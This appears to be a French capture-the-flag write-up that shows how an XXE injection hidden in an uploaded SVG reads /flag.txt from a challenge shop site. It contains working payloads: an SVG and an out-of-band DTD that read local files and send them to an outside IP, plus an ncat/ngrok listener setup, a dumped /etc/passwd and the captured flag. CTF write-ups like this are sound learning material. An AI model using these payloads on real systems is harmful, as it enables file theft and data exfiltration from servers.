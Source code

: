 # Step 3 

> faut trouver le /flag.txt

> découverte du hint: svg -> xxe

## XXE inside SVG

> https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection#xxe-inside-svg

### Chopper une requete chez soit

```xml
<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="300" version="1.1" height="200">
    <image xlink:href="http://77ff5a3f.ngrok.io/"></image>
</svg>
```

```bash
# term 1
ngrok http 12345

# term 2
ncat -klvp 12345
```

Output : 

```
GET / HTTP/1.1
Host: 77ff5a3f.ngrok.io
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:67.0) Gecko/20100101 Firefox/67.0
Accept: image/webp,*/*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
X-Forwarded-Proto: https
X-Forwarded-For: 90.63.252.100
```

### XXE SVG OOB

* ro.svg

```xml
<!DOCTYPE svg [
<!ENTITY % file SYSTEM "http://51.158.113.8/ro.dtd">
%file;%template;
]>
<svg xmlns="http://www.w3.org/2000/svg">
    <text x="10" y="30">Injected: &res;</text>
</svg>
```

* ro.dtd

```xml
<!ENTITY % secret1 SYSTEM "file:///flag.txt">
<!ENTITY % template "<!ENTITY res SYSTEM 'http://51.158.113.8/?data=%secret1;'>">
```

faut upload `ro.svg` : http://willywonka.shop/profile?filetype=image%2fsvg%2bxml
faut changer le mime type

j'ai mis `aas` en nom de victime et du random après

apres c'est tu c/c le ticket id et go autoresize

* /etc/passwd

```
root:x:0:0:root:/root:/bin/bash 
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin syslog:x:102:106::/home/syslog:/usr/sbin/nologin messagebus:x:103:107::/nonexistent:/usr/sbin/nologin _apt:x:104:65534::/nonexistent:/usr/sbin/nologin lxd:x:105:65534::/var/lib/lxd/:/bin/false uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin sshd:x:109:65534::/run/sshd:/usr/sbin/nologin pollinate:x:110:1::/var/cache/pollinate:/bin/false ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
```

* flag

```
Invalid URI: http://51.158.113.8/?data=0D7D2DDEA2B25FF0D35D3E173BA2CDCB120D3554E124EBE2B147B79CF0007630
```